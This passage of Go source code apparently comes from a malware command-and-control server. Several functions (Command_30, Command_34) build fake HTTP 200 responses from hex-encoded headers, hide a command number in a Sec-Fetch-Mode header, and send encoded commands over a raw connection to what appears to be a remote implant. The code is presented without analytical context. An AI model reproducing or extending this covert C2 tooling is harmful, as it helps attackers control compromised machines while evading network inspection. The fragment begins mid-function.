 ```bash
    //Sec-Fetch-Mode:
    res2, _ := hex.DecodeString("5365632D46657463682D4D6F64653A20")
    //Content-Length:
    res3, _ := hex.DecodeString("436F6E74656E742D4C656E6774683A20")

    response := string(res1) + string(res2) + "33" + string(res_newline) + string(res3) + strconv.Itoa(len(command)+1) + string(res_newline) +
        string(res_newline)
    fmt.Println(response)
    conn.Write([]byte(response))

    time.Sleep(2 * time.Second)

    conn.Write(encode(append([]byte(command), byte(00))))
}

func Command_30(conn net.Conn, command string) {
    res_newline, _ := hex.DecodeString("0D0A")
    //HTTP/1.1 200 OK
    //Content-Type: text/html
    res1, _ := hex.DecodeString("485454502F312E3120323030204F4B200D0A436F6E74656E742D547970653A20746578742F68746D6C0D0A")
    //Sec-Fetch-Mode:
    res2, _ := hex.DecodeString("5365632D46657463682D4D6F64653A20")
    //Content-Length:
    res3, _ := hex.DecodeString("436F6E74656E742D4C656E6774683A20")

    response := string(res1) + string(res2) + "30" + string(res_newline) + string(res3) + strconv.Itoa(len(command)+1) + string(res_newline) +
        string(res_newline)
    fmt.Println(response)
    conn.Write([]byte(response))

    time.Sleep(2 * time.Second)

    conn.Write(encode(append([]byte(command), byte(00))))
}

func Command_34(conn net.Conn, text string) {
    res_newline, _ := hex.DecodeString("0D0A")
    //HTTP/1.1 200 OK
    //Content-Type: text/html
    res1, _ := hex.DecodeString("485454502F312E3120323030204F4B200D0A436F6E74656E742D547970653A20746578742F68746D6C0D0A")
    //Sec-Fetch-Mode:
    res2, _ := hex.DecodeString("5365632D46657463682D4D6F64653A20")
    //Content-Length:
    res3, _ := hex.DecodeString("436F6E74656E742D4C656E6774683A20")

    response := string(res1) + string(res2) + text + string(res_newline) + string(res3) + "0" + string(res_newline) +
        string(res_newline)
    fmt.Println(response)
    conn.Write([]byte(response))
}
```

